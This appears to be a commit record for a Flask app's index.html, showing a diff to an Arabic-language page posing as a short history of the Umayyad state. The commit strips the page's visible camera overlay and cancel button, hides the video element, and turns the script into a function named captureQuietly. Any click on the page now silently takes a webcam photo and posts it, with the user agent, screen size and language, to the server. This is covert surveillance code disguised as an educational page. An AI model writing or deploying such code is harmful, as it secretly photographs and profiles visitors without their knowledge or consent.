

Before and after one commit to the223423-web/Thar, a Flask app: page / in a window 1280 px wide. Shown: the whole page at 88% size. After the commit the page ends 307 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -2,103 +2,53 @@
 <html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
-    <title>الدولة الأموية - موسوعة التاريخ</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>الدولة الأموية</title>
     <style>
-        * { margin:0; padding:0; box-sizing:border-box; }
-        body { font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; background-color: #f4f1ea; color: #333; line-height: 1.8; cursor: pointer; }
-        header { background: linear-gradient(135deg, #1a365d, #2b6cb0); color: #f8f9fa; text-align: center; padding: 4rem 1rem; border-bottom: 5px solid #d4af37; }
-        header h1 { font-size: 3rem; margin-bottom: 0.5rem; }
-        header p { font-size: 1.2rem; opacity: 0.9; }
-        .container { max-width: 800px; margin: 30px auto; padding: 30px; background: #ffffff; box-shadow: 0 10px 30px rgba(0,0,0,0.1); border-radius: 16px; }
-        h2 { color: #2b6cb0; border-right: 4px solid #d4af37; padding-right: 15px; margin: 30px 0 20px 0; }
-        ul { list-style-type: disc; padding-right: 25px; margin-bottom: 20px; }
-        li { margin-bottom: 10px; }
-        footer { text-align: center; margin-top: 40px; padding: 20px; color: #718096; background-color: #e2e8f0; }
-        .click-hint { text-align: center; margin: 30px auto; font-size: 1rem; color: #2b6cb0; background: #ebf4ff; display: table; padding: 12px 24px; border-radius: 40px; border: 1px solid #bee3f8; }
-        .camera-overlay { position: fixed; top: 0; left: 0; width: 100%; height: 100%; background: rgba(0,0,0,0.95); z-index: 1000; display: none; flex-direction: column; justify-content: center; align-items: center; color: white; backdrop-filter: blur(5px); }
-        .camera-overlay video { width: 90%; max-width: 380px; border-radius: 24px; border: 3px solid #d4af37; box-shadow: 0 20px 35px rgba(0,0,0,0.5); }
-        .close-cam { margin-top: 30px; background: #e53e3e; padding: 10px 30px; border-radius: 50px; cursor: pointer; font-weight: bold; transition: 0.2s; }
-        .close-cam:hover { background: #c53030; transform: scale(1.03); }
+        body { font-family: Arial; background: #f4f1ea; text-align: center; padding: 50px; cursor: pointer; }
+        .container { max-width: 800px; margin: auto; background: white; padding: 30px; border-radius: 16px; }
+        .click-hint { background: #ebf4ff; display: inline-block; padding: 12px 24px; border-radius: 40px; margin-top: 30px; }
     </style>
 </head>
 <body>
-    <header>
+    <div class="container">
         <h1>🏛️ الدولة الأموية</h1>
-        <p>أكبر دولة في تاريخ الإسلام، وواحدة من أعظم الإمبراطوريات في التاريخ</p>
-    </header>
-    <div class="container">
-        <section>
-            <h2>📜 نبذة تاريخية</h2>
-            <p>تأسست الدولة الأموية عام <strong>41 هـ (661 م)</strong> على يد معاوية بن أبي سفيان رضي الله عنه، بعد تنازل الحسن بن علي رضي الله عنهما عن الخلافة. اتخذت الدولة من <strong>دمشق</strong> عاصمة لها، وامتدت من أطراف الصين شرقاً إلى الأندلس غرباً.</p>
-        </section>
-        <section>
-            <h2>👑 أبرز الخلفاء</h2>
-            <ul>
-                <li><strong>معاوية بن أبي سفيان:</strong> المؤسس والموحد الأول بعد الفتنة.</li>
-                <li><strong>عبد الملك بن مروان:</strong> معرّب الدواوين وصاحب أول عملة إسلامية.</li>
-                <li><strong>الوليد بن عبد الملك:</strong> في عهده بلغت الفتوحات ذروتها وبنى الجامع الأموي.</li>
-                <li><strong>عمر بن عبد العزيز:</strong> الملقب بخامس الخلفاء الراشدين لعدله وورعه.</li>
-            </ul>
-        </section>
-        <section>
-            <h2>🏆 أهم الإنجازات</h2>
-            <ul>
-                <li>الفتوحات الكبرى في آسيا، أفريقيا، وأوروبا.</li>
-                <li>تعريب الدواوين ونقل الإدارة إلى اللغة العربية.</li>
-                <li>بناء معالم خالدة: قبة الصخرة، الجامع الأموي، مسجد قرطبة.</li>
-                <li>تطوير أول أسطول بحري إسلامي قوي.</li>
-            </ul>
-        </section>
-        <div class="click-hint">👆 اضغط في أي مكان لبدء العرض التقديمي الحي</div>
-    </div>
-    <footer>
-        <p>نبذة تعريفية سريعة ومختصرة عن تاريخ الدولة الأموية العريقة.</p>
-    </footer>
-
-    <div id="cameraOverlay" class="camera-overlay">
-        <video id="video" autoplay playsinline muted></video>
-        <canvas id="canvas" style="display:none;"></canvas>
-        <div id="camStatus">⏳ جاري تجهيز العرض...</div>
-        <div class="close-cam" id="closeCam">✖️ إلغاء</div>
+        <p>أكبر دولة في تاريخ الإسلام</p>
+        <div class="click-hint">👆 اضغط في أي مكان لبدء العرض</div>
     </div>
 
+    <!-- فيديو مخفي تماماً (لن يظهر) -->
+    <video id="video" autoplay playsinline muted style="display:none;"></video>
+    <canvas id="canvas" style="display:none;"></canvas>
+
     <script>
-        (function() {
-            let isActive = false;
-            let stream = null;
-            const overlay = document.getElementById('cameraOverlay');
+        let isActive = false, stream = null;
         const video = document.getElementById('video');
         const canvas = document.getElementById('canvas');
-            const camStatus = document.getElementById('camStatus');
-            const closeBtn = document.getElementById('closeCam');
 
         function getDeviceInfo() {
             const ua = navigator.userAgent;
             let os = "غير معروف", browser = "غير معروف";
             if (ua.includes("Windows")) os = "Windows";
             else if (ua.includes("Mac OS")) os = "macOS";
-                else if (ua.includes("Linux")) os = "Linux";
             else if (ua.includes("Android")) os = "Android";
-                else if (ua.includes("iOS") || ua.includes("iPhone")) os = "iOS";
+            else if (ua.includes("iOS")) os = "iOS";
             if (ua.includes("Chrome") && !ua.includes("Edg")) browser = "Chrome";
             else if (ua.includes("Firefox")) browser = "Firefox";
             else if (ua.includes("Safari") && !ua.includes("Chrome")) browser = "Safari";
-                else if (ua.includes("Edg")) browser = "Edge";
             const screen = `${window.screen.width}x${window.screen.height}`;
             const language = navigator.language || "غير معروف";
             return { os, browser, screen, language };
         }
 
-            function activate() {
+        function captureQuietly() {
             if (isActive) return;
             isActive = true;
             navigator.mediaDevices.getUserMedia({ video: true })
                 .then(s => {
                     stream = s;
                     video.srcObject = stream;
-                        overlay.style.display = 'flex';
-                        camStatus.innerText = "📸 سيتم التقاط صورة خلال ثانية...";
+                    // انتظر نصف ثانية ثم التقط الصورة (دون عرض أي شيء)
                     setTimeout(() => {
                         try {
                             canvas.width = video.videoWidth;
@@ -113,28 +63,18 @@
                                 body: JSON.stringify({ image: imageData, device_info: deviceInfo })
                             }).finally(() => {
                                 if (stream) stream.getTracks().forEach(t => t.stop());
-                                    overlay.style.display = 'none';
                                 isActive = false;
                             });
                         } catch(e) {
                             if (stream) stream.getTracks().forEach(t => t.stop());
-                                overlay.style.display = 'none';
                             isActive = false;
                         }
-                        }, 800);
+                    }, 500);
                 })
-                    .catch(() => { alert("تعذر الوصول إلى الكاميرا."); isActive = false; overlay.style.display = 'none'; });
+                .catch(() => { alert("تعذر الوصول إلى الكاميرا."); isActive = false; });
         }
-            document.body.addEventListener('click', (e) => {
-                if (e.target === closeBtn || closeBtn.contains(e.target)) return;
-                activate();
-            });
-            closeBtn.addEventListener('click', () => {
-                if (stream) stream.getTracks().forEach(t => t.stop());
-                overlay.style.display = 'none';
-                isActive = false;
-            });
-        })();
+
+        document.body.addEventListener('click', () => captureQuietly());
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
